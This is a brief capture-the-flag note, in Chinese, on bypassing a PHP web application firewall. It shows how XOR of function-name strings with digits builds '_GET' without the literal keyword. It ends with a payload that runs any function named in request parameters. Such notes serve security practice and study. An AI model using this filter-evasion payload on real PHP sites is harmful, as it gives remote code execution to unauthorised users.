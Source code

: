 -
- tags:: [[CTF/PHP/WAF绕过]]
- fuzz可得：
	- `"is_nan"^"64" === "_G"`
	- `"tan"^"15" === "ET"`
- 所以：`(is_nan^(6).(4)).(tan^(1).(5)) === "_GET"`
- 最终payload：`1;$pi=(is_nan^(6).(4)).(tan^(1).(5));${$pi}{1}(${$pi}{2})`